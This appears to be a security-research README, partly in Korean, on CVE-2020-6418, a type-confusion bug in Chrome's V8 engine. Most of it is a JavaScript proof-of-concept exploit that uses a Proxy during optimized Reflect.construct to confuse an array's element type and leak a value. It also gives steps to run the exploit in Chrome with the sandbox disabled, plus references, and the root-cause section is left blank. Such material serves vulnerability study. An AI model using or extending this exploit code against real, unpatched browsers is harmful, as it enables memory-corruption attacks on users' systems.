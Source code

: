 # Incorrect side effect modelling for JSCreate in V8

## Information
- CVE : CVE-2020-6418
- 해당 소프트웨어 : Chrome V8
- 해당 버전 : Google Chrome prior to 80.0.3987.122
- 취약점 유형 : TypeConfusion

## Root Cause
TBD

## PoC
```javascript
const MAX_ITERATIONS = 100000;
const buf = new ArrayBuffer(8);
const f64 = new Float64Array(8);
const u32 = new Uint32Array(buf);
// Floating point to 64-bit unsigned integer
function f2i(val)
{ 
    f64[0] = val;
    let tmp = Array.from(u32);
    return tmp[1] * 0x100000000 + tmp[0];
}
// 64-bit unsigned integer to Floating point
function i2f(val)
{
    let tmp = [];
    tmp[0] = parseInt(val % 0x100000000);
    tmp[1] = parseInt((val - tmp[0]) / 0x100000000);
    u32.set(tmp);
    return f64[0];
}
// 64-bit unsigned integer to hex
function hex(i)
{
    return "0x"+i.toString(16).padStart(16, "0");
}

let a = [1.1, 2.2, 3.3, 4.4, 5.5, 6.6];

function empty() {}

function f(p) {
  return a.pop(Reflect.construct(empty, arguments, p));
}

let p = new Proxy(Object, {
    get: () => {
        //%DebugPrint(a);
        //%SystemBreak();
        a[0] = {};
        //%DebugPrint(a);
        //%SystemBreak();
        return Object.prototype;
    }
});

function main(p) {
  return f(p);
}

%PrepareFunctionForOptimization(empty);
%PrepareFunctionForOptimization(f);
%PrepareFunctionForOptimization(main);

main(empty);
main(empty);
%OptimizeFunctionOnNextCall(main);
print(hex(f2i(main(p))));
```

## How to run exploit?
> OS : Ubuntu 18.04 64bit
> 
> Chrome version : Google Chrome prior to 80.0.3987.122
1) --no-sandbox 옵션으로 크롬 실행
2) exp.js 파일을 로드

## Reference
- [Chrome Bug Tracker](https://bugs.chromium.org/p/chromium/issues/detail?id=1053604)
- [ray-cp github](https://github.com/ray-cp/browser_pwn/tree/master/cve-2020-6418)
- [ray-cp blog](https://ray-cp.github.io/archivers/browser-pwn-cve-2020-6418%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90)
- [V8 patch code](https://chromium.googlesource.com/v8/v8/+/fb0a60e15695466621cf65932f9152935d859447)